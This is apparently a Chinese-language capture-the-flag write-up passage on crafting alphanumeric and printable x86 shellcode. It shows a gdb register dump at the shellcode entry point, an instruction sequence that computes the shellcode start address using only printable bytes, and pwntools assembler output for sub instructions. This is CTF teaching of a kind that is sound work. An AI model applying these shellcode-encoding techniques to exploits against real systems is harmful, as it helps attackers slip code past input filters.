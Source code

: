 r(register)代表寄存器，r8代表8位寄存器例如alah等

m(memory)代表内存

imm(immediate value)代表立即数

rel(relative address)代表相对地址

r/m(register or memory)代表内存或寄存器，可参考[ModR/M与SIB编码](http://blog.sina.com.cn/s/blog_67b113a101011fl9.html)

在程序跳入shellcode中(0x80000000)时，各个寄存器的值如下。

```
gdb-peda$ info r
eax            0xffffd5900xffffd590
ecx            0x800000d00x800000d0
edx            0xffffd6600xffffd660
ebx            0x800000d70x800000d7
esp            0xffffd66c0xffffd66c
ebp            0xa6161610xa616161
esi            0x414141410x41414141
edi            0x414141410x41414141
eip            0x800000000x80000000
```

可以使用XOR AL, imm8清除EAX的低7bit，再用过DEC EAX/AX完成EAX的高位退位，多次重复后可以得到需要的地址（本实例仅需重复一次）。

```
# Alphanumeric
push ecx       //Q
pop eax        //X    =&gt; eax = 0x800000d0
xor al,0x50    //4P   =&gt; eax = 0x80000080
push eax       //P
pop ecx        //Y
dec ecx        //I    =&gt; ecx = 0x8000007f
push ecx       //Q
pop eax        //X
xor al,0x74    //4t   =&gt; eax = 0x8000000b =&gt; shellcode begin = 0x80000000 + len(QX4PPYIQX4t)
```

得到的指令序列为QX4PPYIQX4t。但题目中并不要求Alphanumeric而是要求Printable，所以可以使用sub完成寄存器数据的修改。

```
&gt;&gt;&gt; asm("sub eax,0x41")
'x83xe8A'
&gt;&gt;&gt; asm("sub ebx,0x41")
'x83xebA'
&gt;&gt;&gt; asm("sub ecx,0x41")
'x83xe9A'
&gt;&gt;&gt; asm("sub edx,0x41")
'x83xeaA'
&gt;&gt;&gt; asm("sub al,0x41")
',A'
&gt;&gt;&gt; asm("sub bl,0x41")
'x80xebA'
&gt;&gt;&gt; asm("sub cl,0x41")
'x80xe9A'
&gt;&gt;&gt; asm("sub dl,0x41")
'x80xeaA'
```
